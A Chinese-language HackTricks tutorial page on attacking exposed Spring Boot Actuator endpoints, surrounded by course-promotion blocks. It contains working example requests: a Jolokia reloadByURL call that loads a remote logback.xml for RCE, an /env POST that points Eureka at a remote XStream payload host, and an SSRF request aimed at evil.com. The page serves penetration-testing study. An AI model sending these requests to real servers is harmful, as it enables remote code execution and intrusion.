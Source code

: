 # Spring Actuators

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**来自** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## 利用 Spring Boot Actuators

**查看原始帖子** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **关键点：**

* Spring Boot Actuators 注册的端点包括 `/health`、`/trace`、`/beans`、`/env` 等。在 1 到 1.4 版本中，这些端点无需身份验证即可访问。从 1.5 版本开始，只有 `/health` 和 `/info` 默认是非敏感的，但开发人员通常会禁用此安全性。
* 某些 Actuator 端点可能会暴露敏感数据或允许有害操作：
* `/dump`、`/trace`、`/logfile`、`/shutdown`、`/mappings`、`/env`、`/actuator/env`、`/restart` 和 `/heapdump`。
* 在 Spring Boot 1.x 中，actuators 注册在根 URL 下，而在 2.x 中，它们位于 `/actuator/` 基路径下。

### **利用技术：**

1. **通过 '/jolokia' 进行远程代码执行**：
* `/jolokia` actuator 端点暴露了 Jolokia 库，允许对 MBeans 的 HTTP 访问。
* `reloadByURL` 操作可以被利用来从外部 URL 重新加载日志配置，这可能导致盲 XXE 或通过精心制作的 XML 配置进行远程代码执行。
* 示例利用 URL：`http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`。
2. **通过 '/env' 进行配置修改**：
* 如果存在 Spring Cloud 库，`/env` 端点允许修改环境属性。
* 可以操纵属性以利用漏洞，例如 Eureka serviceURL 中的 XStream 反序列化漏洞。
* 示例利用 POST 请求：

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **其他有用的设置**：
* 属性如 `spring.datasource.tomcat.validationQuery`、`spring.datasource.tomcat.url` 和 `spring.datasource.tomcat.max-active` 可以被操纵以进行各种利用，例如 SQL 注入或更改数据库连接字符串。

### **附加信息：**

* 默认 actuators 的综合列表可以在 [这里](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) 找到。
* Spring Boot 2.x 中的 `/env` 端点使用 JSON 格式进行属性修改，但一般概念保持不变。

### **相关主题：**

1. **Env + H2 RCE**：
* 关于利用 `/env` 端点和 H2 数据库组合的详细信息可以在 [这里](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) 找到。
2. **通过错误的路径名解释在 Spring Boot 上进行 SSRF**：
* Spring 框架对 HTTP 路径名中矩阵参数 (`;`) 的处理可以被利用进行服务器端请求伪造 (SSRF)。
* 示例利用请求：

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
</details>
{% endhint %}
